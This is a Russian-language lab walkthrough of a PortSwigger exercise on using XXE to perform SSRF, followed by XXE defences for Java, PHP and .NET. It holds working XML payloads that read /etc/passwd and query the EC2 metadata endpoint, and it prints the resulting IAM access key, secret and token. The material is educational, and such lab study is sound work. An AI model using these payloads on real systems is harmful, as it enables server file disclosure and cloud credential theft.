

## Использование XXE для выполнения атак SSRF

------
лаба https://portswigger.net/web-security/xxe/lab-exploiting-xxe-to-perform-ssrf

задание, в функции проверки остатка запасов товаров есть xml
http://169.254.169.254/ - точка получение метаданных
нужно получить секретный ключ доступа к серверу IAM из конечной точки метаданных EC2 через SSRF в уязвимости XXE


пример как можно используя уязвимость XXE  выполнить серверный запрос через сервер к внутренней системе 

---
на одной из страниц - вот оригин запрос который возвращает число товаров со склада
```xml

<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
----

==MIME type = text==


поменял запрос 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
возвращает запрашиваемый файл!  xxe подтверждена!!!




сделал запрос
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
ответ 400 без данных
```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 28

"Invalid product ID: latest"
```

---

добавил  latest который указан в ошибке от сервера
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]>
<stockCheck><productId>&xxe;</productId><storeId>1</storeId>
```
ответ "Invalid product ID: meta-data"

добавил "meta-data"
ответ  "Invalid product ID: iam"
ПООЧЕРЕДНО ДОБАВЛЯЮ ТО _ ЧТО В ОШИБКАХ УКАЗАНО

итоговый DOCTYPE 
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
```

в итоге ответ:
```http
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 552

"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2026-02-13T16:29:23.047716436Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "8Ndjah32tY9Jqy5P5ioA",
  "SecretAccessKey" : "CAXYOamJuBljvutKQd3dS1b68cuwPaMimkVu51Ma",
  "Token" : "7VGs7BNRY5vvTRAtArEz6CBqbpHEWuCKx5cMp9ig8erxhuEIs26tFXG4w9dAn1XCAtcdYlRtHT7NT2wUCwArWV3zYJnriPeqCcUWwcKxxnXdLCnTEJsBfv3nsriJ0bg5QudsuyOY9cU9T6RLuhNudl2AwfhQrcl8UTtdOmpTNcZW0o4lqa4e8jAtMTPNYlAPZ2aAEprob4fUAIzE5hmU1mrNgsoEgNNTSsn6Bq07KXqx1v1Ucrkuud5j0jLSmNHe",
  "Expiration" : "2032-02-12T16:29:23.047716436Z"
}"
```

----
Удалось делать запросы SSRF от сервера через XML уязвимость
Ключевым моментом стало то, что сервер **возвращал нам ошибку с подсказкой**
XXE  оказалась не просто "ридером файлов", а полноценным прокси для сервера. 
Заставил сервер не только читать локальные файлы (/etc/passwd), но и ходить во внутреннюю сеть от своего имени.

============================================================
## способы защиты от xxe :

###### ОТКЛЮЧИТЬ ОБРАБОТКУ DTD И ВНЕШНИХ СУЩНОСТЕЙ
Если парсеру запретить обрабатывать `DOCTYPE` и внешние ссылки, XXE просто нечему будет работать

**Пример (Java):**
```java
factory.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```
**Пример (PHP):**
```php
libxml_disable_entity_loader(true);
```
**Пример (.NET):**
```csharp
XmlReaderSettings settings = new XmlReaderSettings();
settings.DtdProcessing = DtdProcessing.Prohibit; // или Ignore
```
###### ИСПОЛЬЗОВАТЬ JSON ВМЕСТО XML
JSON **не поддерживает** DTD и сущности — XXE там просто невозможен [](https://www.tencentcloud.com/techpedia/117813)[](https://www.oreilly.com/library/view/wang-luo-ying-yong-cheng-xu-an-quan/9798341659544/ch24.html). 
Если API может принимать JSON — используй его. 
Меньше функционала = меньше дыр.

###### ВСЕГДА ЯВНО НАСТРАИВАТЬ ПАРСЕР

Никогда не полагайся на настройки "по умолчанию"  в парсерах / библиотеках — они часто опасны [](https://docs.veracode.com/r/xxe-processing#what-are-xxe-attacks)[](https://www.oreilly.com/library/view/wang-luo-ying-yong-cheng-xu-an-quan/9798341659544/ch24.html). В каждом языке/библиотеке надо **целенаправленно запретит**ь
- `DOCTYPE`
- Внешние сущности (`SYSTEM`, `PUBLIC`)
- XInclude (если не нужно)

---------


